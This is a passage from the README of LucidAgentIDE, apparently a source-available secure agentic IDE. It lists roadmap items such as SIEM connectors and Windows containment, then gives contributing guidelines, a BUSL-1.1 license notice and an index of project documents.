| **SIEM connectors** - Splunk HEC / syslog-CEF / Elastic / cloud sinks behind the now-shipped OCSF audit-export `Sink` interface | [ADR-0069](DECISIONS.md) |
| **Windows runtime containment (enterprise)** - the verified AppContainer backend + the admin loopback exemption that unlocks mediated egress on Windows | [ADR-0173](DECISIONS.md) |
| Prompt/response traceability · dev-mode logging deepening | [ADR-0009](DECISIONS.md) |

See [`PROGRESS.md`](PROGRESS.md) for the per-session log (shipped / stubbed / next).

## 🤝 Contributing

Built in the open, **one disciplined increment at a time.** If you want to run it from source, file an issue,
or propose a change, start here:

- **Read [`CLAUDE.md`](CLAUDE.md) first.** It's the load-bearing contract - fail-closed, extend omp (don't fork), frozen contracts, a byte-stable prompt. A change that silently breaks an invariant won't land.
- **ADR-first.** Non-trivial work begins as an ADR in [`DECISIONS.md`](DECISIONS.md) (242 and counting) - pick one up, or propose your own.
- **One increment per change.** Small, verifiable, with a demo and tests. See [`CHEATSHEET.md`](CHEATSHEET.md) for day-to-day commands.
- **Tests are the gate.** `bun test harness && bun test desktop` stay green and `tsc --noEmit` is clean; CI runs the build + CodeQL on every push.
- **The only Python is the scanner sidecar.** Everything else is TypeScript on Bun - please don't add a second Python surface.

**Good first areas:** the desktop GUI + dev server, scanner fixtures, docs/wording, and platform/build
robustness (Windows + macOS installers).

> **License.** The LucidAgentIDE core (this repository) is **source-available under the Business Source
> License 1.1** (BUSL-1.1) - the model HashiCorp uses for Terraform. You may read, modify, self-host, and
> use it **in production**, *except* to offer a hosted or embedded commercial product that competes with
> TechLead 187 LLC's products. On **2030-06-27** (the Change Date) each version converts to the **Mozilla
> Public License 2.0**. Full terms: [`LICENSE`](LICENSE). © 2026 TechLead 187 LLC. The premium enterprise
> add-on is a **separate, separately-licensed** repository; vendored dependencies (e.g. `vendor/oh-my-pi`)
> retain their own licenses. Please **open an issue or discussion before any large change** so we can align
> on scope and contribution terms.

##  Project docs

| Doc | What's in it |
|:--|:--|
| [`CLAUDE.md`](CLAUDE.md) | **Read first.** The load-bearing invariants (fail-closed, extend-don't-fork, frozen contracts, byte-stable prefix) |
| [`DECISIONS.md`](DECISIONS.md) | Architecture decision records (ADR-0001 … ADR-0191) |
| [`PROGRESS.md`](PROGRESS.md) | Per-session build log: shipped / stubbed / next |
| [`desktop/README.md`](desktop/README.md) | The desktop GUI + dev server |
| [`CHEATSHEET.md`](CHEATSHEET.md) | Day-to-day commands |
| [`docs/guides/`](docs/guides/README.md) | **Role-based user guides** - Developer / Security / Manager / Executive walkthroughs |
| [`docs/MARKET-POSITIONING.md`](docs/MARKET-POSITIONING.md) | **Where LUCID fits** - the public, qualitative positioning slice (the secure / sovereign agentic IDE segment) |

<div align="center">
<br/>
<sub>Built around <a href="https://omp.sh">oh-my-pi</a> · extend, never fork · fail-closed by construction</sub>
<br/>
<a href="https://www.linkedin.com/in/nickchadwick-techlead187/"></a>
<a href="https://x.com/TechLead187"></a>
<br/>
<sub>© 2026 TechLead 187 LLC · source-available under <a href="LICENSE">BUSL-1.1</a> (converts to MPL-2.0 on 2030-06-27) · <a href="https://www.linkedin.com/in/nickchadwick-techlead187/">LinkedIn</a> · <a href="https://x.com/TechLead187">@TechLead187</a></sub>
</div>
